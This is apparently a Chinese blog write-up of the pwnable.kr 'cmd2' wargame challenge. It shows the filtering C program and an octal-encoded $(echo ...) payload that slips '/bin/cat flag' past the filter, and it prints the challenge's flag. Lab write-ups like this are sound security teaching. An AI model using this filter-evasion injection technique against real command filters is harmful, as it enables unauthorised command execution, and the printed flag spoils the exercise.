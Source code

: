 ```yaml
---
id: 71
title: pwnable.kr-cmd2
date: 2016-08-14T05:29:49+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=71
permalink: /pwnable-kr-cmd2/
categories:
  - pwn
tags:
  - bash
  - bypass
  - cmd
  - echo
  - payload
  - pwn
  - pwnable.kr
---
```

题目描述：

> Daddy bought me a system command shell.
  
> but he put some filters to prevent me from playing with it without his permission&#8230;
  
> but I wanna play anytime I want!
> 
> ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

这题ssh的登陆密码是cmd1的flag，登陆后查看cmd2.c的源代码：

<pre class="brush: cpp; title: ; notranslate" title="">#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

int filter(char* cmd){
 int r=0;
 r += strstr(cmd, "=")!=0;
 r += strstr(cmd, "PATH")!=0;
 r += strstr(cmd, "export")!=0;
 r += strstr(cmd, "/")!=0;
 r += strstr(cmd, "`")!=0;
 r += strstr(cmd, "flag")!=0;
 return r;
}

extern char** environ;
void delete_env(){
 char** p;
 for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
 delete_env();
 putenv("PATH=/no_command_execution_until_you_become_a_hacker");
 if(filter(argv[1])) return 0;
 printf("%s\n", argv[1]);
 system( argv[1] );
 return 0;
}

</pre>

我们看到相比cmd1还多过滤了“/”，所以这里我们需要绕过这个限制，这里有多种方法可以绕过，经过测试我们发现通过cmd2中的system可以直接执行echo，但是其他的命令都需要绝对路径才行，也就是例如whoami需要&#8221;/bin/whoami&#8221;，这样会出现”/“。这里利用echo进行绕过：

把所有的字符经过8进制编码：

<pre class="brush: python; title: ; notranslate" title="">from pwn import *
cmd = "/bin/cat flag"
print "\\"+"\\".join([oct(i) for i in ordlist(cmd)])
</pre>

然后得到编码后的字符串，最后构造payload：

> cmd2@ubuntu:~$ ./cmd2 &#8216;$(echo &#8220;\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147&#8221;)&#8217;
  
> $(echo &#8220;\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147&#8221;)
  
> FuN\_w1th\_5h3ll\_v4riabl3s\_haha

可以成功得到flag:

FuN\_w1th\_5h3ll\_v4riabl3s\_haha